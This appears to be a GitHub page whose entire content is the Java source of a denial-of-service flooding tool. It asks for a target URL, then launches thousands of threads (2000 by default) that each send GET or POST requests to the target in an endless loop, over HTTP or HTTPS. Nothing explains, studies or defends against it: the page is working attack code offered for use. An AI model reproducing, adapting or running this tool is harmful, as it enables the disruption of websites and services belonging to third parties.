 # ddos
import java.io.*; import java.net.*; import java.util.Scanner; import java.util.ArrayList;  import javax.net.ssl.HttpsURLConnection;   public class Dos implements Runnable {        private final String USER_AGENT =   "Mozilla/5.0 (Android; Linux armv7l; rv:10.0.1) Gecko/20100101 Firefox/10.0.1 Fennec/10.0.1Mozilla/5.0 (Android; Linux armv7l; rv:10.0.1) Gecko/20100101 Firefox/10.0.1 Fennec/10.0.1";      private static int amount = 0;     private static String url = "";     int seq;     int type;      public Dos(int seq, int type) {         this.seq = seq;         this.type = type;     }      public void run() {         try {             while (true) {                 switch (this.type) {                     case 1:                         postAttack(Dos.url);                         break;                     case 2:                         sslPostAttack(Dos.url);                         break;                     case 3:                         getAttack(Dos.url);                         break;                     case 4:                         sslGetAttack(Dos.url);                         break;                  }             }         } catch (Exception e) {          }     }       public static void main(String[] args) throws Exception {         String url = "";         int attakingAmoun = 0;         Dos dos = new Dos(0, 0);         Scanner in = new Scanner(System.in);         System.out.print("Enter Url: ");         url = in.nextLine();         System.out.println("\n");         System.out.println("Starting Attack to url: " + url);          String[] SUrl = url.split("://");          System.out.println("Checking connection to Site");         if (SUrl[0] == "http" || SUrl[0].equals("http")) {             dos.checkConnection(url);         } else {             dos.sslCheckConnection(url);         }          System.out.println("Setting DDoS By: Shadow Tak");          System.out.print("Thread: ");         String amount = in.nextLine();          if (amount == null || amount.equals(null) || amount.equals("")) {             Dos.amount = 2000;         } else {             Dos.amount = Integer.parseInt(amount);         }          System.out.print("method: ");         String option = in.nextLine();         int ioption = 1;         if (option == "get" || option == "GET") {             if (SUrl[0] == "http" || SUrl[0].equals("http")) {                 ioption = 3;             } else {                 ioption = 4;             }         } else {             if (SUrl[0] == "http" || SUrl[0].equals("http")) {                 ioption = 1;             } else {                 ioption = 2;             }         }          Thread.sleep(2000);           System.out.println("Starting Attack");         ArrayList&lt;Thread> threads = new ArrayList&lt;Thread>();         for (int i = 0; i &lt; Dos.amount; i++) {             Thread t = new Thread(new Dos(i, ioption));             t.start();             threads.add(t);         }          for (int i = 0; i &lt; threads.size(); i++) {             Thread t = threads.get(i);             try {                 t.join();             } catch (Exception e) {              }         }         System.out.println("Main Thread ended");     }      private void checkConnection(String url) throws Exception {         System.out.println("Checking Connection");         URL obj = new URL(url);         HttpURLConnection con = (HttpURLConnection) obj.openConnection();         con.setRequestMethod("GET");         con.setRequestProperty("User-Agent", USER_AGENT);          int responseCode = con.getResponseCode();         if (responseCode == 200) {             System.out.println("Connected to website");         }         Dos.url = url;     }      private void sslCheckConnection(String url) throws Exception {         System.out.println("Checking Connection (ssl)");         URL obj = new URL(url);         HttpsURLConnection con = (HttpsURLConnection) obj.openConnection();         con.setRequestMethod("GET");         con.setRequestProperty("User-Agent", USER_AGENT);          int responseCode = con.getResponseCode();         if (responseCode == 200) {             System.out.println("Connected to website");         }         Dos.url = url;     }      private void postAttack(String url) throws Exception {         URL obj = new URL(url);         HttpURLConnection con = (HttpURLConnection) obj.openConnection();         con.setRequestMethod("POST");         con.setRequestProperty("User-Agent", USER_AGENT);         con.setRequestProperty("Accept-Language", "en-US,en;");         String urlParameters = "out of memory";          con.setDoOutput(true);         DataOutputStream wr = new DataOutputStream(con.getOutputStream());         wr.writeBytes(urlParameters);         wr.flush();         wr.close();         int responseCode = con.getResponseCode();         System.out.println("POST attack done!: " + responseCode + "Thread: " + this.seq);     }      private void getAttack(String url) throws Exception {         URL obj = new URL(url);         HttpURLConnection con = (HttpURLConnection) obj.openConnection();         con.setRequestMethod("GET");         con.setRequestProperty("User-Agent", USER_AGENT);          int responseCode = con.getResponseCode();         System.out.println("GET attack done!: " + responseCode + "Thread: " + this.seq);     }      private void sslPostAttack(String url) throws Exception {         URL obj = new URL(url);         HttpsURLConnection con = (HttpsURLConnection) obj.openConnection();         con.setRequestMethod("GET");         con.setRequestProperty("User-Agent", USER_AGENT);         con.setRequestProperty("Accept-Language", "en-US,en;");         String urlParameters = "out of memory";          con.setDoOutput(true);         DataOutputStream wr = new DataOutputStream(con.getOutputStream());         wr.writeBytes(urlParameters);         wr.flush();         wr.close();         int responseCode = con.getResponseCode();         System.out.println("GET attack done!:" + responseCode + "Thread: " + this.seq);     }      private void sslGetAttack(String url) throws Exception {         URL obj = new URL(url);         HttpsURLConnection con = (HttpsURLConnection) obj.openConnection();         con.setRequestMethod("GET");         con.setRequestProperty("User-Agent", USER_AGENT);          int responseCode = con.getResponseCode();         System.out.println("GET attack done!: " + responseCode + "Thread: " + this.seq);     } }
